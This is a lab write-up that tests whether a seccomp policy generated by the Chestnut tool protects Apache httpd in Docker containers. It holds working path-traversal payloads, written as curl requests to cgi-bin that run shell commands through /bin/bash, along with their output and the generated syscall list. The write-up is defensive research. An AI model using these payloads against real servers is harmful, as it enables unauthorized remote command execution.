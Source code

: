 ## Apache httpd – chestnut

./build.sh
docker compose up -d

### Preparation

For the seccomp container we follow these steps, to create a policy for the `httpd` binary and apply it:

1. Enter the seccomp container:
   `docker exec -it http-chestnut-seccomp-container "bash`

2. Run following commands inside the container. After executing `rewrite.sh` the binary will get executed:

```
mkdir /tool/Chestnut/Binalyzer/cached_results/
sed -i 's/from cfg import cached_results_folder/cached_results_folder = "cached_results"/' /tool/Chestnut/Binalyzer/syscalls.py
cd /tool/Chestnut/Binalyzer
python3 /tool/Chestnut/Binalyzer/syscalls.py /opt/apache/bin/httpd
python3 /tool/Chestnut/Binalyzer/policy.py /opt/apache/bin/httpd
cp /tool/Chestnut/Binalyzer/cached_results/policy__opt_apache_bin_httpd.json /tool/Chestnut/ChestnutPatcher/
cd /tool/Chestnut/ChestnutPatcher && make
/tool/Chestnut/ChestnutPatcher/rewrite.sh /opt/apache/bin/httpd
```

For the container without seccomp, we just have to start it with following command:
`docker exec -it http-chestnut-normal-container "/opt/apache/bin/httpd"`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                      COMMAND       CREATED          STATUS          PORTS                                                                                  NAMES
74a0ff93c31a   http-chestnut-seccomp      "bash"        36 seconds ago   Up 35 seconds   0.0.0.0:8083->80/tcp, [::]:8083->80/tcp                                                http-chestnut-seccomp-container
c4bb89d13ae4   http-chestnut-normal       "bash"        36 seconds ago   Up 35 seconds   0.0.0.0:8084->80/tcp, [::]:8084->80/tcp
```

_Seccomp_:

The attack on the container with the applied seccomp profile succeeds:

```
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami'  -H "Content-Type: text/plain"
daemon
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; id'  -H "Content-Type: text/plain"
uid=1(daemon) gid=1(daemon) groups=1(daemon)
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; ls|head'  -H "Content-Type: text/plain"
bash
bunzip2
bzcat
bzcmp
bzdiff
bzegrep
bzexe
bzfgrep
bzgrep
bzip2
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; pwd'  -H "Content-Type: text/plain"
/bin
```

```
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami' -H "Content-Type: text/plain"
daemon
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; id' -H "Content-Type: text/plain"
uid=1(daemon) gid=1(daemon) groups=1(daemon)
❯ curl 'http://localhost:8083/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; ls|head' -H "Content-Type: text/plain"
bash
bunzip2
bzcat
bzcmp
bzdiff
bzegrep
bzexe
bzfgrep
bzgrep
bzip2
❯ curl 'http://localhost:8084/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; pwd' -H "Content-Type: text/plain"
/bin
```

### Analysis

Both containers are still vulnerable!

The used seccomp policy `policy__opt_apache_bin_httpd.json`:

```
{"version": 1, "syscalls": [0, 1, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 53, 54, 55, 56, 58, 59, 60, 61, 62, 63, 64, 65, 66, 67, 68, 69, 70, 71, 72, 73, 74, 75, 76, 77, 78, 79, 80, 81, 82, 83, 84, 85, 86, 87, 88, 89, 90, 91, 92, 93, 94, 95, 96, 98, 99, 100, 101, 102, 103, 104, 105, 106, 107, 108, 109, 110, 111, 112, 113, 114, 115, 116, 117, 118, 119, 120, 121, 122, 123, 124, 125, 126, 127, 128, 129, 130, 131, 132, 133, 134, 135, 136, 137, 138, 140, 141, 142, 143, 144, 145, 146, 147, 148, 149, 150, 151, 152, 153, 154, 155, 156, 157, 158, 159, 161, 162, 163, 164, 165, 166, 167, 168, 169, 170, 171, 172, 173, 174, 175, 176, 177, 178, 179, 180, 181, 182, 186, 187, 188, 189, 190, 191, 192, 193, 194, 195, 196, 197, 198, 199, 201, 202, 203, 204, 213, 216, 218, 220, 221, 227, 228, 229, 230, 231, 232, 233, 234, 235, 247, 253, 254, 255, 257, 258, 259, 260, 261, 262, 263, 264, 265, 266, 267, 268, 269, 270, 271, 272, 273, 275, 276, 277, 278, 280, 281, 283, 285, 286, 287, 288, 289, 290, 291, 292, 293, 294, 295, 296, 297, 299, 300, 301, 302, 303, 304, 305, 306, 307, 308, 309, 310, 311, 318, 319, 322, 325, 326, 327, 328, 329, 330, 331]}
```
